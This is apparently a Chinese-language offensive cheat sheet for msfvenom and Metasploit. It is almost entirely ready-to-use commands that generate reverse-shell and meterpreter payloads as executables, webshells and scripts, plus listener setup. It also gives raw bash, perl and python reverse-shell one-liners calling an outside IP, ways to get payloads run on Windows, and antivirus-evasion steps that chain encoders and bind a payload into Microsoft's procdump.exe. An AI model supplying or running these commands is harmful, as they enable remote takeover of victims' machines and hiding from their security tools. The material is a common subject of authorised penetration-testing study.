

# 生成msf常用payload列表

在kali下可以使用如下命令列出MSFVenom可以生成的payload列表：
```
msfvenom -l
```
# 生成二进制文件(.exe)

关于二进制文件，主要介绍适用于`Windows、linux、mac`操作系统的payload生成与利用。

## Windows
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```

## Linux

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```

## Mac

```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
```
## 如何利用

如针对Windows生产一个exe的payload：
```
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.100.82 lport=6565 -f exe -o /re.exe
```
> 复制re.exe到Windows机器，然后kali下开启msf使用如下命令监听4444端口：


### msf调用这个框架
```
 use exploit/multi/handler
```
### 绑定payload
```
set payload windows/x64/meterpreter_reverse_tcp 
```
### 填写链接参数
``` 
set lhost 192.168.100.82  //设置接受payload的地址，我们这里设置MSF的地址
```
```
set lport 4444         // 设置接受的端口，这个自己自定义，只要不与其它端口冲突就可以
```
### 填写链接端口
```
 set ExitOnSession false     \\ 这样以后就不会自动结束掉job了
```
```
exploit -j -z  \\GKDGKD
```
想尽办法在Windows端运行即可


在这里既然使用到了`在Windows下执行应用程序`，我们就大概盘点一下在Windows执行应用程序的几种方式：
```
双击运行
cmd下运行exe
利用Powershell远程下载执行
利用at或schtasks设置计划任务执行
利用wmic远程命令执行
其他的方式请各位补充
```
# 生成webshell脚本

在做web渗透的时候，经常会用到webshell，我们经常用的一句话用菜刀连接，如何使用MSFVenom生成`一个可以用msf操作的webshell呢？`

### PHP

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
```
### 或者
```
cat shell.php | pbcopy && echo '<?php ' | tr -d 'n' > shell.php && pbpaste >> shell.php
```
### ASP
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```

### JSP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```

### WAR
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```

### 如何利用
下面以`php`为例做一下测试，使用以下命令生成一个webshell：
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.100.82 LPORT=4444 -f raw > shell.php
```

### 在kali上使用msf执行下面的命令，监听端口4444：

```
use exploit/multi/handler
```
```

set PAYLOAD php/meterpreter_reverse_tcp  
```
```
set LHOST 192.168.88.128
```
```
set LPORT 4444
```
```
set ExitOnSession false
```
```
exploit -j -z
```
> 可见这段代码和上文中唯一不同就是设置了不同的payload(这不废话吗)

### 如何实现

>将shell.php放在web目录下，使用浏览器访问，或者使用以下命令执行：
```
php shell.php
```

可以当成一个检测payload如果上线就提醒下线就当场去世(Died)

# 脚本shell

关于使用脚本反弹shell的方式，主要以`python、bash、perl`为例。

## Python

```
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```

## Bash
```
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```

## Perl
```
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```

## Powershell

```
msfvenom -p windows/x64/meterpreter_reverse_http LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f psh > shell.ps1
```
然后使用`ps运行它才会执行反射payload`，执行代码：
```
powershell.exe -ExecutionPolicy Bypass -File shell.ps1
```
## 如何使用

下面就以Python为例做一下测试，使用以下命令生成一个脚本：
```
msfvenom -p cmd/unix/reverse_python LHOST=192.168.88.128 LPORT=4444 -f raw > shell.py
```
在kali上使用msf执行下面的命令，监听端口4444：

msfconsole
```
use exploit/multi/handler

set PAYLOAD cmd/unix/reverse_python

set LHOST 192.168.88.128

set LPORT 4444

set ExitOnSession false

exploit -j -z
```

所以总结一下 ，payload的制作只要更改其中的payload的目录即可，设置基本都一样只是更换payload而已。

# 其他的各种各样的姿势的反弹shell：

```bash
bash:bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
```perl
perl: perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
```python
python: python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

**编码捆绑免杀部分**
测试编码并绑定微软官方工具，这里使用官方procdump做实验
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.91.129 LPORT=7777 -e x86/shikata_ga_nai -x procdump.exe  -i 20 -f exe -o t3.exe
```


**0x05多重编码**

通过资料了解，msfvenom某一种编码器可以做到一定程度的免杀，这是可以多重编码增大免杀率，同时x86/shikata_ga_nai为多态编码，可以尝试增大编码次数达到免杀效果
```
msfvenom -a x86 –platform windows -p windows/meterpreter/reverse_tcp -e x86/call4_dword_xor -i 100 LHOST=192.168.56.129 LPORT=7777 -f raw | msfvenom -a x86 –platform windows -e x86/countdown -i 100 -f raw | msfvenom -a x86 –platform windows -e x86/shikata_ga_nai -b “&” -i 100 -f raw | msfvenom -a x86 –platform windows -e cmd/powershell_base64 -i 100 -x procdump.exe -k -f exe >t4.exe
```


